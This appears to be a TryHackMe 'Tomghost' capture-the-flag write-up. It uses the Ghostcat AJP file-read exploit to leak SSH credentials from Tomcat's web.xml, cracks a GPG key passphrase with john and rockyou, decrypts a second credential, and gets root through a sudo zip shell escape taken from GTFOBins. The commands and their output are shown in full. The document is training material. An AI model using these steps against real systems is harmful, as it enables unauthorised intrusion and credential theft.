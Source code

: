 # THM Thomghost writeup

## 8009 : tomcat

use exploit `48143.py` from [exploit db](https://exploit-db.com) and get :

```xml
Getting resource at ajp13://10.10.228.43:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	   skyfuck:passwd
  </description>

</web-app>
```

## 22 : ssh

login using creds `ssh skyfuck@$IP` and get the creds:
```

```
the it's the `privesc` parts :

### privesc:

find two files : `credential.gpg` and `tryhackme.asc` then use john for decrypt the password of the gpg key :

```bash
gpg2john tryhackme.asc > key.hash
john -wordlist=/usr/share/wordlists/rockyou.txt key.hash
```

the use gpg to decrypt the file `credential.gpg` :

```
┌──(ismael㉿kali)-[~/Documents/CTF/THM/tomghost]
└─$ gpg --import private.key       
gpg: clef 8F3DA3DEC6707170 : « tryhackme <stuxnet@tryhackme.com> » n'est pas modifiée
gpg: clef 8F3DA3DEC6707170 : clef secrète importée
gpg: clef 8F3DA3DEC6707170 : « tryhackme <stuxnet@tryhackme.com> » n'est pas modifiée
gpg:       Quantité totale traitée : 2
gpg:                 non modifiées : 2
gpg:           clefs secrètes lues : 1
gpg:      clefs secrètes importées : 1
                                                                                                                                                                        
┌──(ismael㉿kali)-[~/Documents/CTF/THM/tomghost]
└─$ gpg --decrypt credential.pgp
gpg: Attention : l'algorithme de chiffrement CAST5 est introuvable
            dans les préférences du destinataire
gpg: chiffré avec une clef ELG de 1024 bits, identifiant 61E104A66184FBCC, créée le 2020-03-11
      « tryhackme <stuxnet@tryhackme.com> »
merlin:<passwd>
```

and login to ssh:

```
┌──(ismael㉿kali)-[~/Documents/CTF/THM/tomghost]
└─$ ssh merlin@10.10.126.249
merlin@10.10.126.249's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Sat Aug  6 06:52:00 2022 from 10.9.2.76
merlin@ubuntu:~$ cat flag.txt
<flag>
```

so now it's privesc time !

```
merlin@ubuntu:~$ id
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
go to [GTFOBins](https://gtfobins.github.io/gtfobins/) and search zip : [zip#sudo](https://gtfobins.github.io/gtfobins/zip/#sudo)
```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

and get the second flag:
```
# cd /root
# ls
root.txt  ufw
# cat root.txt
<flag>
```
